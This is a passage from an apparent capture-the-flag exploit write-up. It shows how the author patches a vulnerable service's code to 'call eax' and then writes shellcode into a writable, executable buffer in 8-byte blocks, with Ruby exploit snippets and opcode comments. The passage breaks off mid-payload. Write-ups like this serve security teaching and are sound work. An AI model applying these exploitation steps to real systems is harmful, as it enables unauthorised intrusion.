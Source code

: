 I chose a particular point in the <tt>queue_state_list()</tt> function, which is only called when the user requests queue state information. At the point where I modify the code, the eax register points to a big block of writable, executable, and empty memory (the actual list of queue information). I replace the code that's already there with <tt>call eax</tt>, so when it executes, it calls into that memory. Here's what it looks like in my exploit:
<pre># Adds "call eax" at a point where eax contains our buffer
# This "call eax" happens in option "4" from the main menu, after doing this
# we can trigger the call anytime by sending "4"
change_word_to(0x79c, pack("ffd0")) # call eax
</pre>
<tt>change_word_to()</tt> smartly figures out how to actually make that change: the value that was at offset 0x79c is read, and the math to turn it into <tt>call eax</tt> is automatically done. All the math to turn that into an actual address is taken care of by the <tt>change_word_to()</tt> function.

Once that code has been written, I can trigger a call to our current-empty memory by invoking the <tt>queue_state_list()</tt> function, which means sending a payload with byte "\x04". Recall the code we saw earlier:
<pre>[...]
    } <span class="Conditional">else</span> <span class="Conditional">if</span>(command == <span class="Number">4</span>) {
      queue_state_list(queues, <span class="Number">1</span>);
    } <span class="Conditional">else</span> {
[...]
</pre>
<h2>Setting up the payload</h2>
For the rest of the exploit, I just need to write a bunch of code to that big empty section that we're prepared to call.

We know that the memory is initialized to all zeroes, which helps. We also know that, starting from the beginning, we have to make all of our changes in 8-byte blocks that match up with the <tt>queue_t</tt> struct. That means the first 4-byte value can be incremented, and the second 4-byte value can be modified in bigger chunks. That means we can have one instruction that has a "lower" value, and one that has a slightly "higher" value.

With that in mind, let's just look at the rest of the exploit, then analyze it:
<pre><span class="Comment"># Buffer the return address in ecx for now</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">5990</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># pop ecx / nop</span>

<span class="Comment"># Length - esi is a reasonably long value when we arrive here</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">5690</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># push esi / nop</span>

<span class="Comment"># buf - Use the stored return address as our buffer</span>
write_value_to((start += <span class="Number">8</span>), <span class="Number">0x02eb</span>, pack(<span class="rubyStringDelimiter">"</span><span class="String">5190</span><span class="rubyStringDelimiter">"</span>)) <span class="Comment"># push ecx / nop</span>
